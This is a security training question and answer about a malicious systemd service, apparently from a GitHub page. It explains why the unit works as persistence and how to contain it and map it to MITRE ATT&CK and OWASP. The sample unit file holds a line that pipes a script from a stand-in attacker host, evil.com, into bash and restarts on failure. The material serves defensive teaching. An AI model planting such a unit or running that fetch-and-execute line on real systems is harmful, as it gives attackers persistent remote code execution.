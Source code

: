 ###Real-World Curveball: Malicious Systemd Service

**Scenario (Question):**  
A suspicious unit file is found in `/etc/systemd/system/updatesync.service`:

[Unit]  
Description=System Update Sync  
After=network.target  

[Service]  
ExecStart=/bin/bash -c 'curl -s http://evil.com/payload.sh | bash'  
Restart=always  

[Install]  
WantedBy=multi-user.target  

**Question:**  
1. From a Red Team perspective, why is this an effective persistence mechanism?  
2. From a Blue Team perspective, what immediate containment actions and long-term defenses should be applied?  
3. Which MITRE ATT&CK techniques and OWASP categories does this map to?  

---

**Answer:**

**Red Team Perspective — Why Effective**  
- Runs automatically on every reboot (systemd = PID 1).  
- Disguised as a legitimate service (`updatesync`).  
- Fetches fresh payloads from a remote server each run.  
- `Restart=always` → ensures resilience, restarts if killed.  

---

**Blue Team Perspective — Defense**  
- **Immediate Actions:**  
  - Disable & stop service safely: `systemctl disable --now updatesync.service`.  
  - Preserve service file for forensics.  
  - Block outbound traffic to `evil.com`.  
  - Review history: `journalctl -u updatesync`.  

- **Long-Term Defenses:**  
  - Baseline & monitor `/etc/systemd/system/*.service` and `.timer`.  
  - File integrity monitoring (Wazuh, OSSEC, auditd).  
  - Restrict creation/enabling of services (least privilege).  
  - Hunt for suspicious service names mimicking legit ones.  

---

**Security Mapping**  
- **MITRE ATT&CK:**  
  - T1053.006 — Scheduled Task/Job: Systemd Services/Timers  
  - T1547 — Boot/Logon Autostart Execution  
- **OWASP:**  
  - A05 — Security Misconfiguration  
  - A08 — Software and Data Integrity Failures  

---